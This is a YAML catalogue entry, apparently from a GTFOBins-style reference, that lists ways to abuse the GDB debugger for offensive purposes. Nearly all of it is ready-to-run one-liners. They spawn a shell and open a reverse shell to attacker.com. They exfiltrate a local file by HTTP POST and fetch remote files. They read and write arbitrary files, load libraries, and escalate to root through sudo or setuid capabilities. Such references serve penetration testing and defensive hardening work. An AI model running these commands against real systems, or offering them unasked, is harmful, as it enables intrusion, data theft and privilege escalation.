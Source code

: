 ```yaml
---
functions:
  shell:
    - code: gdb -nx -ex '!sh' -ex quit
  reverse-shell:
    - description: This requires that GDB is compiled with Python support. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        gdb -nx -ex 'python import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")' -ex quit
  file-upload:
    - description: This requires that GDB is compiled with Python support. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        gdb -nx -ex 'python import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))' -ex quit
    - description: This requires that GDB is compiled with Python support. Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        gdb -nx -ex 'python import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' -ex quit
  file-download:
    - description: This requires that GDB is compiled with Python support. Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        gdb -nx -ex 'python import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])' -ex quit
  file-write:
    - description: This requires that GDB is compiled with Python support.
      code: |
        LFILE=file_to_write
        gdb -nx -ex "dump value $LFILE \"DATA\"" -ex quit
  file-read:
    - description: This requires that GDB is compiled with Python support.
      code: gdb -nx -ex 'python print(open("file_to_read").read())' -ex quit
  library-load:
    - description: This requires that GDB is compiled with Python support.
      code: gdb -nx -ex 'python from ctypes import cdll; cdll.LoadLibrary("lib.so")' -ex quit
  sudo:
    - code: sudo gdb -nx -ex '!sh' -ex quit
  capabilities:
    - description: This requires that GDB is compiled with Python support.
      code: ./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
---
```

